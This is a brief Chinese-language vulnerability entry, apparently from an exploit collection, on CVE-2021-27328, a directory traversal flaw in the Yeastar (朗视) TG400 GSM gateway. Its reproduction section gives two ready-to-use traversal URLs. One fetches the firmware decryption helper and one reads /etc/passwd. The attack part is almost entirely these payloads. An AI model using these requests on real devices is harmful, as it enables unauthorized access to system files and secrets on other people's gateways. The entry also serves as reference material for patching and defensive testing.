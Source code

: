 # 朗视 TG400 GSM 网关目录遍历 CVE-2021-27328

## 漏洞描述

朗视 TG400 GSM 网关存在目录遍历 ，攻击者可以通过漏洞获取敏感信息

参考阅读：

- https://github.com/SQSamir/CVE-2021-27328

## 漏洞影响

```
朗视 TG400 GSM 网关
```

## 漏洞复现

暂无FOFA语句及固件设备复现

```plain
获取固件解密密码
http://192.168.43.246/cgi/WebCGI?1404=../../../../../../../../../../bin/firmware_detect
/etc/passwd：
http://192.168.43.246/cgi/WebCGI?1404=../../../../../../../../../../etc/passwd
```
